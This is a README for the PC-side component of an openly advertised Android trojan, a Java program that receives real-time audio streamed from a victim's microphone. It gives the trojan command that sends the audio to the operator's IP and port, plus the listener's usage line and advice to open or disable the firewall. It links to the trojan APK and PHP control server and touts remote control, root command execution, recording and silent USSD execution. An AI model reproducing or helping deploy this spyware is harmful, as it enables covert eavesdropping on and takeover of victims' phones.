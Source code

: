 # Android Trojan (Built with Android SDK 22) source code
The main manual is here: https://github.com/androidtrojan1/android-trojan-service-
UPD. 11.02.2016 Version 1.2 released!

DESCRIPTION:



This is the source of executable .jar file that is used for recieving of sound stream from the mic of the victim's device in real time.
First you need to execute the command "stream [your_ip_address] [your_desired_listening_port]" and if it started it will show you
the neccessary buffer size and port that you should pass as argument.

Example of usage: 
java -jar streamer.jar bufsize port
for instance (java - jar streamer.jar 8192 31337)

IMPORTANT!!!
Dont forget to set up the firewall rule or just completely disable it for a while (the UDP port will be used for listening)
And you will also need to set up IP forwarding if you are bihind a firewall. 

HERE ARE LINKS TO THE OTHER COMPONENTS:

trojan service apk: https://github.com/androidtrojan1/android-trojan-service-

mic streamer pc client: https://github.com/androidtrojan1/android-trojan-streamer

trojan php server part: https://github.com/androidtrojan1/android-trojan-php-server



Android trojan with abilities of remote control,root commands execution, recording and online sound streaming

Compatible with all Android from Gingerbread (API 10) up to Lollipop (API 22)





have fun!

Upd. 11.09.2016  New Update is coming. New features in the upcoming version:
*  Telegram real-time notifications about victim's actions
*  silent execution of ussd codes
*  more interesting root features ^^
